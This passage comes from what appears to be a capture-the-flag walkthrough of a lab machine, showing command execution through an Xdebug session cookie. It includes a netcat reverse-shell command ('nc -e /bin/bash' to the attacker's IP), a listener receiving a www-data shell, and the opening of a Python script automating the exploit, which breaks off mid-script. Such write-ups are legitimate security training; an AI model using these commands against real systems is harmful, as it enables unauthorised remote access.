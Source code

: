 
Decoding the data that came back in the `CDATA` block, we’ll see it’s part of
the ping output:

    
    
    root@kali# echo cm91bmQtdHJpcCBtaW4vYXZnL21heC9zdGRkZXYgPSA5NC4zNjEvOTUuMDcyLzk1Ljg2MS8wLjU2MiBtcw== | base64 -d
    round-trip min/avg/max/stddev = 94.361/95.072/95.861/0.562 ms
    

Even better, if we look at the curl command, which has not returned yet, we
get the output:

    
    
    root@kali# curl http://10.10.10.83 -H "Cookie: XDEBUG_SESSION=wpOCvcWXx5"
    PING 10.10.14.5 (10.10.14.5): 56 data bytes
    64 bytes from 10.10.14.5: icmp_seq=0 ttl=62 time=18.276 ms
    --- 10.10.14.5 ping statistics ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 18.276/18.276/18.276/0.000 ms
    

### Shell

From the python script above, we’ll give `nc -e` a try and get lucky (since
most hosts don’t have the `-e `option):

    
    
    >> system("nc -e /bin/bash 10.10.14.5 8087")
    
    
    
    root@kali# nc -lnvp 8087
    listening on [any] 8087 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 57586
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Script to get shell

Wrote script to get shell as www-data, `get_olympic_www_shell.py`

    
    
    #!/usr/bin/env python3
    
    from base64 import b64encode
    import requests
    import socket
    import sys
    
    
    if len(sys.argv) != 2:
        print("{} [nc port]".format(sys.argv[0]))
        sys.exit()
    
    def get_my_ip():
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        s.connect(("10.10.10.1", 80))
        return s.getsockname()[0]
    